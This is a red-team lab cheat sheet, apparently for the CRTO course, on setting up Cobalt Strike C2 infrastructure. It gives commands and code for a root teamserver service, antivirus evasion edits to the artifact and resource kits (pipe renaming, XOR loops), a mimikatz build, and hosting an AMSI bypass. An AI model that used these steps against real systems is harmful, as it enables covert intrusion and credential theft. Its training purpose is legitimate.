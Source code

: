 # CRTO Infrastructure Cheat Sheet

1. Setup DNS records
2. Load Malleable C2 profile and change out https-certificate block (use nopsled.profile which is custom webbug.profile)
3. Setup teamserver.service enabled on boot
4. Create http, smb, dns, tcp, tcp-local listeners
5. Modify the script_template.cna (changes rundll32.exe references to dllhost.exe)
6. Modify bypass-pipe.c and patch.c, and build the artifact kit
7. Modify the template.x64.ps1 file and build the resource kit
8. Build the mimikatz kit
9. Load all the cna files (e.g., artifact.cna, resource.cna, mimikatz.cna)
10. Generate all Windows stageless CS payloads
11. Host the AMSI bypass at /bypass
12. Host any PS1 files directly (avoids compress) (e.g., /http64ps1)


## 1. Set DNS records

@ A 3600 10.10.5.50\
ns1 A 3600 10.10.5.50\
pics A 3600 ns1.getwrecked.com

## 2. Load Malleable C2 profile

- Use nopsled.profile (custom webbug.profile)
- Change out the CN to match DNS in https-certificate

## 3. Setup Team Server as a Service

`sudo vim /etc/systemd/system/teamserver.service`

*include in teamserver.service:*
```[Unit]
Description=Cobalt Strike Team Server
After=network.target
StartLimitIntervalSec=0

[Service]
Type=simple
Restart=always
RestartSec=1
User=root
WorkingDirectory=/home/attacker/cobaltstrike
ExecStart=/home/attacker/cobaltstrike/teamserver 10.10.5.50 Passw0rd! c2-profiles/normal/nopsled.profile

[Install]
WantedBy=multi-user.target
```

Setup the service to enable on boot after creating teamserver.service
`sudo systemctl daemon-reload`
`sudo systemctl status teamserver.service`
`sudo systemctl start teamserver.service`
`sudo systemctl enable teamserver.service`

## 4. Create http, smb, dns, tcp, tcp-local listeners

## 5. Modify the script_template.cna (changes rundll32.exe references to dllhost.exe)
`$template_path="C:\Tools\cobaltstrike\arsenal-kit\kits\artifact\script_template.cna"; (Get-Content -Path $template_path) -replace 'rundll32.exe', 'dllhost.exe' | Set-Content -Path $template_path`

## 6. Modify bypass-pipe.c and patch.c, and build the artifact kit

### bypass-pipe.c: Change the sprintf call on line 130 and remove the comments above
`sprintf(pipename, "%c%c%c%c%c%c%c%c%cnop\\sled", 92, 92, 46, 92, 112, 105, 112, 101, 92);`

### patch.c: Change for loops on lines 45 and around 115/120
```
for (x = 0; x < length; x++) {
    char* ptr = (char *)buffer + x;

    /* do something random */
    GetTickCount();

    *ptr = *ptr ^ key[x % 8];
}
```

### Build artifact kit
`cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/artifact && ./build.sh pipe VirtualAlloc 310272 5 false false none /mnt/c/Tools/cobaltstrike/artifacts`

## 7. Modify the template.x64.ps1 file and build the resource kit

### Edit template.x64.ps1
```
for ($nops = 0; $nops -lt $v_code.Count; $nops++) {
	$v_code[$nops] = $v_code[$nops] -bxor 35
}
```

### Build resource kit
`cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/resource && ./build.sh /mnt/c/Tools/cobaltstrike/resource`

## 8. Build the mimikatz kit

### Setup mimikatz for CS
`cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/mimikatz/ && ./build.sh /mnt/c/Tools/cobaltstrike/mimikatz`

## 9. Load all the cna files (e.g., artifact.cna, resource.cna, mimikatz.cna)

## 10. Generate all Windows stageless CS payloads

## 11. Host the AMSI bypass at /bypass

## 12. Host any PS1 files directly (avoids compress) (e.g., /http64ps1)
